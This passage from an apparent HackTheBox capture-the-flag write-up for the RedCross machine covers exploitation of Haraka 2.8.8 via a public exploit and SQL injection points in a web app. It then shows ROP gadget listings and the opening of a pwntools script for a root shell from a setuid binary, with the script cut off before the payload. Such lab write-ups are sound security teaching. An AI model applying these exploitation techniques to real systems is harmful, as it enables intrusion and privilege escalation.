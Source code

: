 
In fact, `penelope` is running Haraka 2.8.8 on `1025/tcp`. We can make use of EDB-ID [41162](https://www.exploit-db.com/exploits/41162) to gain a low-privilege shell as `penelope` to read `user.txt`.

Furthermore, the intra-messaging app is susceptible to SQLi attacks. Two parameters in particular serve as the injection point: `LIMIT` cookie and `o` field in `https://intra.redcross.htb/?page=app`.

Finally, let's take a shot at exploiting the `setuid` binary `iptctl`. Before we begin, note that the binary is a 64-bit ELF, ASLR is enabled, and you can't execute CPU instructions on the stack.

I first noted a buffer overrun (BOF) vulnerability in the `interactive` function from the source code. There are two `fgets` one can use to exploit the vulnerability. One `fgets` reads from `stdin` to the `&inputAction` memory address, the other to `&inputAddress` memory address, which is closer to the saved return pointer. The idea is to use the second `fgets` to overwrite the saved return pointer with our own code. However, because `fgets` reads at most (BUFFSIZE - 1) bytes, the exploit has to be less than 360 bytes.

Let's take a look at the source code just before we enter the `interactive` function.


{% include image.html image_alt="116f3169.png" image_src="/3f2f16e1-3e09-421c-a378-406237c3b3a9/116f3169.png" %}


Now, let's take a good look at the `interactive` function.


{% include image.html image_alt="c38708f7.png" image_src="/3f2f16e1-3e09-421c-a378-406237c3b3a9/c38708f7.png" %}


Good thing the binary is a non position-independent executable (PIE), and as such, function address in the procedure linkage table (PLT) doesn't change. Another blessing was the binary contained plenty of ROP gadgets for use. I was able to write `sh` using `strcpy@plt` to an address within `bss`, which also doesn't change. Lastly, I used `setuid@plt` and `execvp@plt` to spawn a `root` shell.

There are plenty of tools out there that help to generate a list of ROP gadgets. I used [ROPgadget](https://github.com/JonathanSalwan/ROPgadget).

```
# ROPgadgets --binary iptctl
...
0x00000000004006c2 : add rsp, 8 ; ret
0x0000000000400de3 : pop rdi ; ret
0x0000000000400de1 : pop rsi ; pop r15 ; ret
0x00000000004006c6 : ret
```

I used these ROP gadgets to chain together an exploit.

<div class="filename"><span>exploit.py</span></div>

```python
'''
# ROPgadget --binary iptctl --memstr "sh"
Memory bytes information
=======================================================
0x000000000040024f : 's'
0x000000000040046f : 'h'
'''

from pwn import *

shell = [ 0x40024f, 0x40046f ]  # 's' and 'h'

# front matter
newline = "\n"
action  = "show"
offset  = "A" * 8
address = "255.255.255.255\x00"
writeme = 0x6020a0  # avoid start of bss
payload = ''        # bss is at 0x602090
```

[1]: https://www.hackthebox.eu/home/machines/profile/162
[2]: https://www.hackthebox.eu/home/users/profile/9631
[3]: https://www.hackthebox.eu/